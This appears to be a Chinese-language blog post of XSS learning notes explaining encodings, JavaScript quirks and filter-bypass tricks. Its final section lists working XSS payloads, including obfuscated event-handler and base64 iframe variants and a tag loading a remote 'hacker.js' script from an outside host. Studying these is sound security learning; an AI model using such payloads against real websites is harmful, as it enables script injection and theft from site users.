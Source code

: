 ```yaml
---
layout: post
title: "XSS Learning Notes"
subtitle: "XSS Learning Notes"
date: 2019-01-12
author: ppbibo
category: security
finished: true
---
```

[TOC]

XSS 又叫CSS (Cross Site Script) , 跨站脚本攻击.

它指的是恶意攻击者往WEB页面插入恶意html代码.

当用户浏览该页面时，嵌入WEB页面的html代码会被运行，从而达到恶意攻击用户的特殊目的.



## 一个普通反射型的xss

```
# name 参数未进行任何处理并打印

http://localhost/xxxxxxxssssssssssss/xss.php?name=<script>alert(1)</script>
```



## HTML编码

```
http://    ==   
&#104;&#116;&#116;&#112;&#58;&#47;&#47;   ==   
&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;

# 这三个是标签是相等的  都是 http://

# Hex 是十六进制编码
# Dec 是十进制编码
# 这种编码在html执行的前提是 ，必须在值里； 例如
# <a href=”xxx”>
# <img src=”xxx”>
```

## Unicode 编码

```
# Js中是允许使用 unicode编码的，

<  ==  “\x3c” == “\u003c”

>  ==  “\x3e” == “\u003e”

空格 == “\x20” == ” \u0020”

.....
```

## CSS编码

```
使用 Unicode 写中文字体名称，浏览器是可以正确的解析的。
例如：font-family: "\5FAE\8F6F\96C5\9ED1"，表示设置字体为“微软雅黑”
CSS 中 expression 用来把CSS属性和Javascript表达式关联起来

<img src="URL" style='Xss:expression(alert(/xss/));'>
 
但是这种的只能在IE6 , IE7 中才会触发。
```

## 宽字节

```
# Gbxxx系列编码
# %aa将%27吞并组成一个gbxxx字符 ==>  猏’


%aa%27 | alert(1)//
```

## eval(string) 函数

```
# 函数可计算某个字符串，并执行其中的的 JavaScript 代码,例如:

eval('alert(1)')
```

## fromcharcode() 函数

```
# 可接受指定的unicode编码的值，返回字符串，可以配合eval函数使用,例如
alert(1) ==> String.fromCharCode(97,108,101,114,116,40,49,41)

# 结合 eval 如下：

eval(String.fromCharCode(97,108,101,114,116,40,49,41))
```

## 伪协议

```
Javascript:alert(document.domain) 

data:text/html,<script>alert(1)</script> 

data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg== 

vbscript: xxxx 			// IE中运行
```

## URL编码

```
%0a  //  URL换行符  
%20  //  空格

! %21 
" %22 
# %23 
$ %24 
% %25 
& %26 
' %27 
( %28 
) %29 
* %2A 
+ %2B 
......
```

## JS 多行字符串

```
Var a=’\

Test\

En\

//coding\

Aaa’

# *** JS特性 *** 
# & 比 = 优先级高
# == 比 & 优先级高




# Javascript 是从上到下按顺序执行的 
test()
function test(){
//code...   这种形式定义的函数会被优先解析
}  
 
# 实际解析顺序
function test(){
//code...   这种形式定义的函数会被优先解析
} 
test()
```

## 注释符

```
//     		# js注释

<!-- -->   	# HTML注释

/**/   		# js注释
```

## 常用绕过

```
<svg/onload=prompt(1);>  	// 短的xss_payload

<q/oncut=open()>           // 短的xss_payload

<q/oncut=alert(1)>			// 短的xss_payload

<scrip<script>t>alealertr(1)</scrip<script>t>   // 过滤不严

<ScriPt>alErT(1)</sCripT>     // 大小写绕过

<script>prompt(1);</script>   // 过滤alert 情况下

<script src="https://6o9.im/hacker.js"></script>

<div onclick="alert('xss')">  // 点击它后会触发

<div onmouseenter="alert('xss')">  // 用户鼠标移动到 div 上时会触发

<iframesrc="javascript:alert(2)">

<iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

<%0ascript>alert(1);</script> 	// 语法 BUG
```
